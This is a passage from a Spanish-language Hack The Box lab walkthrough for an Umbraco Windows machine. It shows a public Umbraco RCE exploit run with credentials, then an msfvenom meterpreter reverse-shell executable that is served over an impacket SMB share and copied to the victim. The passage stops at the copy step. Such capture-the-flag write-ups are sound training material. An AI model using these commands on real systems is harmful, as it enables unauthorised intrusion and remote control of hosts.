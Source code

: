 Si buscamos un exploit por GitHub, nos encontramos con la web https://github.com/Jonoans/Umbraco-RCE/, donde hay que clonar el repositorio. Una vez clonado e instalados los requirements, ejecutamos el ejecutable .py (exploit.py) de la siguiente manera

```bash

python3 exploit.py -u admin@htb.local -p baconandcheese -w http://10.10.10.180 -i 10.10.14.20

```

Una vez puesto este comando, nos da una shell directamente:

![image](../zimages/Pasted_image_20231203213041.png)

El problema es que si probamos a poner comandos básicos no funciona bien.

Lo primero que haremos es irnos a un directorio donde tengamos más permisos, como por ejemplo *temp*:

```powershell

cd C:\windows\temp

```

Una vez aquí, nos vamos a compartir un archivo malicioso hecho mediante msfvenom para poder conseguir una shell mejor. Vamos a crear el archivo con el siguiente comando:

```bash

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.20 LPORT=5555 -f exe -o  virus.exe

```

Mediante este comando estamos creando un archivo malicioso .exe, al que le estamos metiendo un payload de una meterpreter de windows, especificando el puerto y nuestra ip. Una vez creado, lo vamos a compartir con la máquina víctima mediante impacket. Con el siguiente comando crearemos un recurso compartido:

```bash

impacket-smbserver samucrow $(pwd) -smb2support

```

Esto básicamente es como hacer un

```python

python3 -m http.server 80

```

pero para windows funciona mejor impacket.

Una vez iniciado el servidor para compartir archivos, nos vamos a copiar el .exe malicioso a la máquina víctima de la siguiente manera:

```powershell

copy \\10.10.14.20\samucrow\virus.exe virus.exe

```
